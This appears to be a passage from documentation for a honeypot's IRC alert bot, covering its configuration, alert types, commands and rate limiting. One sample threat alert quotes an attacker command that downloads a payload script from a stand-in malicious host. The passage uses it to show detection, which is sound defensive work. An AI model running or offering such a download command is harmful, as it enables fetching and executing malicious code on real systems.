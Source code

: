 ### Configuration Example

```yaml
irc:
  enabled: true
  server: "irc.libera.chat"
  port: 6667
  channel: "#honeypot-alerts"
  nickname: "honeypot-bot"
  ssl: false
  alert_types:
    - "new_host"
    - "high_threat"
    - "interesting_traffic"
  rate_limit: 5
```

### Alert Types

#### New Host Alerts
Sent when a new IP address connects:
```
[NEW HOST] 192.168.1.100 first seen at 2024-01-15 10:30:15
```

#### Threat Alerts
Sent for high-severity threats:
```
[HIGH THREAT] 192.168.1.100 - Malicious download detected: wget http://evil.com/payload.sh
```

#### Interesting Traffic Alerts
Sent for unusual but not necessarily malicious activity:
```
[INTERESTING] 192.168.1.100 - Multiple failed login attempts (5 attempts in 2 minutes)
```

### IRC Commands

The bot responds to IRC commands:

- `!status`: Show monitoring status
- `!stats`: Display current statistics
- `!threats`: List recent threats
- `!help`: Show available commands

### Rate Limiting

To prevent channel flooding:
- Maximum 5 messages per minute by default
- Duplicate alerts are suppressed
- Critical alerts bypass rate limiting

## Data Export and Reporting
